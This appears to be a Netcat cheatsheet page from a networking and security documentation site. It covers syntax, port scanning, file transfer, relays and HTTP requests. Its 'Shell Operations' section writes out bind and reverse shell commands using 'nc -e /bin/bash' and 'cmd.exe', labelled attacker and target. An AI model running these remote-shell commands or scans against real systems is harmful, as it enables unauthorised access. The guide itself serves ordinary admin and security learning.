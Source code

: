 ```yaml
---
title: Netcat
description: A comprehensive guide to the Swiss Army Knife of networking tools
icon: "GlobeLock"
---
```



# Netcat (nc) Cheatsheet

<Callout title="What is Netcat?" type="info">
  Netcat (nc) is often called the "Swiss Army Knife" of networking tools. It's a versatile utility that reads and writes data across network connections using TCP or UDP protocols. It's invaluable for network debugging, port scanning, data transfer, and even as a backdoor.
</Callout>

## 1. Basic Usage

<Tabs items={["Syntax", "Common Flags", "Basic Operations", "Port Scanning"]}>
  <Tab>
    <div className="p-4 border rounded-lg bg-white dark:bg-gray-800 my-4">
      <h4 className="font-bold mb-2 text-blue-600 dark:text-blue-400">Basic Syntax</h4>
      
      ```bash
      # Client Mode (Default)
      nc [options] [hostname] [port]

      # Server/Listener Mode
      nc -l [options] [hostname] [port]
      ```
    </div>
  </Tab>
  <Tab>
    <div className="p-4 border rounded-lg bg-white dark:bg-gray-800 my-4">
      <h4 className="font-bold mb-2 text-green-600 dark:text-green-400">Common Flags</h4>
      
      ```bash
      -l          # Listen mode
      -v          # Verbose output
      -vv         # Very verbose output
      -n          # Skip DNS lookups
      -p          # Specify source port
      -u          # Use UDP instead of TCP
      -w          # Timeout for connects
      -z          # Zero-I/O mode (scanning)
      -k          # Keep listening after client disconnects
      ```
    </div>
  </Tab>
  <Tab>
    <div className="p-4 border rounded-lg bg-white dark:bg-gray-800 my-4">
      <h4 className="font-bold mb-2 text-purple-600 dark:text-purple-400">Basic Operations</h4>
      
      ```bash
      # Simple Chat Server
      nc -l -p 1234        # Listener
      nc localhost 1234    # Client

      # File Transfer
      nc -l -p 1234 > file.txt    # Receiver
      nc host 1234 < file.txt     # Sender

      # Banner Grabbing
      nc -v host 80
      ```
    </div>
  </Tab>
  <Tab>
    <div className="p-4 border rounded-lg bg-white dark:bg-gray-800 my-4">
      <h4 className="font-bold mb-2 text-red-600 dark:text-red-400">Port Scanning</h4>
      
      ```bash
      # Single Port
      nc -zv host 80

      # Port Range
      nc -zv host 20-25

      # Multiple Ports
      nc -zv host 22 80 443

      # With Timeout
      nc -zvw3 host 20-25
      ```
    </div>
  </Tab>
</Tabs>

## 2. Advanced Usage

<Tabs items={["File Transfer", "Shells", "Relays", "HTTP"]}>
  <Tab>
    <div className="p-4 border rounded-lg bg-white dark:bg-gray-800 my-4">
      <h4 className="font-bold mb-2 text-blue-600 dark:text-blue-400">File Transfer</h4>
      
      ```bash
      # Transfer Directory
      # Receiver
      nc -l -p 1234 | tar xvf -

      # Sender
      tar cf - directory | nc host 1234

      # With Progress Bar
      # Receiver
      nc -l -p 1234 | pv > file.txt

      # Sender
      pv file.txt | nc host 1234
      ```
    </div>
  </Tab>
  <Tab>
    <div className="p-4 border rounded-lg bg-white dark:bg-gray-800 my-4">
      <h4 className="font-bold mb-2 text-green-600 dark:text-green-400">Shell Operations</h4>
      
      ```bash
      # Bind Shell (Linux)
      nc -l -p 1234 -e /bin/bash    # Target
      nc host 1234                   # Attacker

      # Bind Shell (Windows)
      nc -l -p 1234 -e cmd.exe      # Target
      nc host 1234                   # Attacker

      # Reverse Shell (Linux)
      nc -l -p 1234                  # Attacker
      nc host 1234 -e /bin/bash     # Target
      ```
    </div>
  </Tab>
  <Tab>
    <div className="p-4 border rounded-lg bg-white dark:bg-gray-800 my-4">
      <h4 className="font-bold mb-2 text-purple-600 dark:text-purple-400">Port Forwarding/Relays</h4>
      
      ```bash
      # Linux Relay (using named pipe)
      mkfifo /tmp/pipe
      nc -l -p 1234 < /tmp/pipe | nc host 80 > /tmp/pipe

      # Windows Relay
      nc -l -p 1234 -e "nc host 80"

      # Port Forwarding
      nc -l -p 8080 -c "nc localhost 80"
      ```
    </div>
  </Tab>
  <Tab>
    <div className="p-4 border rounded-lg bg-white dark:bg-gray-800 my-4">
      <h4 className="font-bold mb-2 text-red-600 dark:text-red-400">HTTP Operations</h4>
      
      ```bash
      # Basic HTTP Server
      while true; do nc -l -p 80 < index.html; done

      # HTTP Request
      printf "GET / HTTP/1.0\r\n\r\n" | nc host 80

      # POST Request
      printf "POST / HTTP/1.0\r\nContent-Length: 5\r\n\r\nHello" | nc host 80
      ```
    </div>
  </Tab>
</Tabs>

## 3. Security Considerations

<Callout type="warning">
  - Always use Netcat in trusted networks or through VPN
  - Be cautious with `-e` flag as it can create security vulnerabilities
  - Consider using encrypted alternatives like `ncat` for sensitive data
  - Monitor and log Netcat usage in production environments
</Callout>

## 4. Best Practices

<Steps>
  1. Always use verbose mode (`-v`) for debugging
  2. Set appropriate timeouts with `-w` flag
  3. Use `-n` flag when DNS resolution isn't needed
</Steps>

## Sources

1. [Original Netcat documentation](http://nc110.sourceforge.net/) by *Hobbit*
2. [SANS Institute - Netcat Cheat Sheet](https://www.sans.org/posters/netcat-cheat-sheet/)
3. [Red Hat Security Blog - Netcat Usage Guide](https://www.redhat.com/sysadmin/getting-started-netcat)
4. [Network Security Tools - Netcat Chapter](https://www.oreilly.com/library/view/network-security-tools/0596007949/ch04.html)
5. [Varonis - Comprehensive Netcat Commands Guide](https://www.varonis.com/blog/netcat-commands#additional-netcat-resources)
6. [GitHub Gist - Netcat Commands Collection](https://gist.github.com/cmbaughman/c91f41ba7b2cf71106f1)